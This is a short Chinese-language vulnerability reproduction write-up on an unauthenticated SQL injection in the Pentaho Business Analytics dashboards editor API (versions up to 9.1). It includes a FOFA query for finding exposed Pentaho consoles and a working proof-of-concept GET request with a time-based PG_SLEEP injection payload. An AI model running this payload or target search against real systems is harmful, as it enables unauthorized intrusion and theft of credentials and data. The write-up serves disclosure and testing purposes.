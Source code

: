 
# Pentaho业务分析平台 SQL注入漏洞复现

### 0x01 产品简介

  Pentaho Business Analytics是一款使您能够安全地访问、集成、操作、可视化和分析大数据资产的业务分析平台。

### 0x02 漏洞概述

 Pentaho 业务分析平台在/pentaho/api/repos/dashboards/editor路径query参数存在SQL注入漏洞，攻击者可未授权执行任意SQL语句，获取账号密码等敏感信息，进一步接管系统。

### 0x03 影响范围

 Pentaho <= 9.1

### 0x04 复现环境

FOFA：app="Pentaho-用户控制台"

![](assets/1701745998-904eb0d81f6ef1ee21533bfdac6c99fc.png)

### 0x05 漏洞复现 

PoC

```cobol
GET /pentaho/api/repos/dashboards/editor?command=executeQuery&datasource=pentaho_operations_mart&require-cfg.js&query=%3BSELECT+PG_SLEEP%288%29-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

延时8秒 （PG\_SLEEP(8)）
